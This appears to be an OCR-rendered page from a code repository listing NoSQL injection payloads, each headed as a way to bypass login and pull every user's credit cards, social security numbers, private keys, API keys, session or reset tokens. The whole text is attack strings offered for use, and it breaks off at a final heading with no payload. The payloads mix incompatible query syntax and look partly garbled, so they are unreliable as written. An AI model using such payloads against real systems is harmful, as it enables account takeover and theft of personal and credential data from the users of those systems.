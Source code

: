 ```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.personal_info != null
```

#### Bypass Login and Get All Users' Credit Card Information

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.credit_card != null
```

#### Bypass Login and Get All Users' Social Security Numbers

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.ssn != null
```

#### Bypass Login and Get All Users' Private Keys

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.private_key != null
```

#### Bypass Login and Get All Users' API Keys

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.api_key != null
```

#### Bypass Login and Get All Users' Password Reset Tokens

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.password_reset_token != null
```

#### Bypass Login and Get All Users' Session Tokens

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.session_token != null
```

#### Bypass Login and Get All Users' Access Tokens

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.access_token != null
```

#### Bypass Login and Get All Users' Refresh Tokens
